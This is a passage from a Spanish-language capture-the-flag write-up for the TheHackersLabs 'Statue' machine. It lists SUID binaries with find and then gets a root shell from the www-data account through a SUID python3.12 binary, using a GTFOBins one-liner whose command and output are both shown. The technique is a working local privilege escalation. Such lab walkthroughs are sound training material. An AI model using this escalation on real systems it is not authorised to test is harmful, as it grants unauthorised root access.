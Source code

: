 <br>

<h3 id="Python">Escalando Privilegios con Binario Python</h3>

Investigando que binarios tienen **permisos SUID**, encontraremos el **binario python**:
```bash
juan@TheHackersLabs-Statue:~$ find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/python3.12
/usr/bin/chfn
/usr/bin/su
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/mount
/usr/bin/fusermount3
/usr/bin/newgrp
```
Podemos utilizarlo para escalar privilegios y convertirnos en **Root**. Además, podemos utilizarlo desde que ganamos acceso a la máquina, es decir, como el **usuario www-data**.

Para esto, usaremos la **guía de GTFOBins**:
* <a href="https://gtfobins.github.io/gtfobins/python/" target="_blank">GTFOBins: Python</a>

Utilizaremos dos formas:
* Escalada de privilegios con **binario python** con **permisos SUID**:

<p align="center">
<img src="/assets/images/THL-writeup-statue/Captura18.png">
</p>

Tan solo ejecutamos el comando que menciona la guía:
```bash
www-data@TheHackersLabs-Statue:/home$ /usr/bin/python3.12 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
bash-5.2# whoami
root
```
